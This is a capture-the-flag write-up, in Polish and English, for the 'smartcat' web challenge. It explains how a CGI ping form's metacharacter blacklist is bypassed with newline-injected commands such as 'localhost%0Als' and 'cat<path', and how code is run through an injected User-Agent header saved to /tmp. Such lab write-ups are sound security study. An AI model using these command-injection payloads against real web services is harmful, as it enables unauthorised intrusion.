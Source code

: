 ﻿##smartcat (Web, 50+50p)

###PL
[ENG](#eng-version)

W zadaniu dostajemy do dyspozycji webowy interfejs (CGI) pozwalający pignować wskazanego hosta. 
Domyślamy się, że pod spodem operacja jest realizowana jako wywołanie `ping` w shellu z doklejonym podanym przez nas adresem.

#### Smartcat1

Pierwsza część zadania polega na odczytaniu flagi znajdującej się w nieznanym pliku, więc wymaga od nas jedynie możliwości czytania plików.
Operatory:

	$;&|({` \t 

są zablokowane, ale zauważamy, że znak nowej linii `\n` jest wyjątkiem.
Możemy dzięki temu wykonać dowolną komendę podając na wejściu np.

`localhost%0Als`

Co zostanie potraktowane jako 2 osobne komendy - `ping localhost` oraz `ls`

Wywołanie `ls` pozwala stwierdzić, że w bierzącym katalogu jest katalog `there`, ale nie mamy możliwości listować go bez użycia spacji. Po chwili namysłu wpadliśmy na pomysł żeby użyć programu `find` który dał nam:

```
.
./index.cgi
./there
./there/is
./there/is/your
./there/is/your/flag
./there/is/your/flag/or
./there/is/your/flag/or/maybe
./there/is/your/flag/or/maybe/not
./there/is/your/flag/or/maybe/not/what
./there/is/your/flag/or/maybe/not/what/do
./there/is/your/flag/or/maybe/not/what/do/you
./there/is/your/flag/or/maybe/not/what/do/you/think
./there/is/your/flag/or/maybe/not/what/do/you/think/really
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag
```

Pozostało nam tylko wywołać `cat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag` i uzyskać flagę:

`INS{warm_kitty_smelly_kitty_flush_flush_flush}`

#### Smartcat2

Druga część zadania jest trudniejsza, ponieważ treść sugeruje, że musimy odczytać flagę przez coś znajdującego się w katalogu `/home/smartcat/` oraz, że potrzebny będzie do tego shell.
Zauważamy po pewnym czasie, że możemy tworzyć pliki w katalogu `/tmp`. 
Możemy także uruchamiać skrypty shell przez `sh<script.sh`, ale nadal mieliśmy problem z tym, jak umieścić w skrypcie interesującą nas zawartość.
Wreszcie wpadliśmy na to, że istnieją pewne zmienne, na których zawartość możemy wpłynąć - nagłówki http.
W szczególności możemy w dowolny sposób ustawić swój `user-agent`. 
Następnie możemy zawartość zmiennych środowiskowych wypisać przez `env` a wynik tej operacji zrzucić do pliku w `tmp`, a potem uruchomić przez `sh</tmp/ourfile`.

Pierwsza próba zawierająca user-agent: `a; echo "koty" >/tmp/msm123; a` zakończyła się sukcesem. 

Mogliśmy więc z powodzeniem wykonać dowolny kod, w tym użyć `nc` lub `pythona` do postawienia reverse-shell. Zamiast tego najpierw wylistowaliśmy katalog `/home/smartcat/` znajdując tam program `readflag`, który przed podaniem flagi wymagał uruchomienia, odczekania kilku sekund i przesłania komunikatu.
Wysłaliśmy więc na serwer skrypt, który wykonywał właśnie te czynności z podanym programem i dostaliśmy:

	Flag:
				___
			.-"; ! ;"-.
		  .'!  : | :  !`.
		 /\  ! : ! : !  /\
		/\ |  ! :|: !  | /\
	   (  \ \ ; :!: ; / /  )
	  ( `. \ | !:|:! | / .' )
	  (`. \ \ \!:|:!/ / / .')
	   \ `.`.\ |!|! |/,'.' /
		`._`.\\\!!!// .'_.'
		   `.`.\\|//.'.'
			|`._`n'_.'|  hjw
			"----^----"

`INS{shells_are _way_better_than_cats}`

###ENG

In the task we get a web interface (CGI) for pinging selected host.
We predict that underneath this is calling `ping` from shell with adress we give.

#### Smartcat1-eng

First part of the task requires reading a flag residing in an unknown file, so we only need to be able to read files.
In the web interface characters 
	
	$;&|({` \t

are blocked, but we notice that newline character `\n` or `%0A` is an exception.
Thanks to that we can execute any command we want by using input:

`localhost%0Als`

This will be executed as 2 separate commands - `ping localhost` and `ls`

Calling `ls` shows us that in currend directory there is a `there` directory, but we can't list it since we can't use space. After a while we figure that we could use `find` which gived us:

	.
	./index.cgi
	./there
	./there/is
	./there/is/your
	./there/is/your/flag
	./there/is/your/flag/or
	./there/is/your/flag/or/maybe
	./there/is/your/flag/or/maybe/not
	./there/is/your/flag/or/maybe/not/what
	./there/is/your/flag/or/maybe/not/what/do
	./there/is/your/flag/or/maybe/not/what/do/you
	./there/is/your/flag/or/maybe/not/what/do/you/think
	./there/is/your/flag/or/maybe/not/what/do/you/think/really
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag


We call: `cat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag` and get flag:

`INS{warm_kitty_smelly_kitty_flush_flush_flush}`

#### Smartcat2-eng

Second part is more difficult, since we task suggests we need to get the flag using something in `/home/smartcat/` dir and that we will need a shell for that.
After some work we notice that we can create files in `/tmp`.
We can also call shellscripts by `sh<scrupt.sh`, but we still didn't know how to place data we want inside the file.
Finally we figured that there are some environmental variables that we can set - http headers.
In particular we can set `user-agent` to any value we want.
We can then list those variables by `env` and save result of this operation to a file in `/tmp` and then run with `sh</tmp/ourfile`.

First attempt containing: `a; echo "koty" >/tmp/msm123; a` was successful.

Therefore, we could execute any code, including using `nc` or `python` to set a reverse-shell. Instead we started with listing `/home/smartcat/` directory, finding `readflag` binary, which requires us to execute it, wait few seconds and then send some message to get the flag.
Instead of the shell we simply sent a script which was doing exactly what `readflag` wanted and we got:

	Flag:
				___
			.-"; ! ;"-.
		  .'!  : | :  !`.
		 /\  ! : ! : !  /\
		/\ |  ! :|: !  | /\
	   (  \ \ ; :!: ; / /  )
	  ( `. \ | !:|:! | / .' )
	  (`. \ \ \!:|:!/ / / .')
	   \ `.`.\ |!|! |/,'.' /
		`._`.\\\!!!// .'_.'
		   `.`.\\|//.'.'
			|`._`n'_.'|  hjw
			"----^----"

`INS{shells_are _way_better_than_cats}`
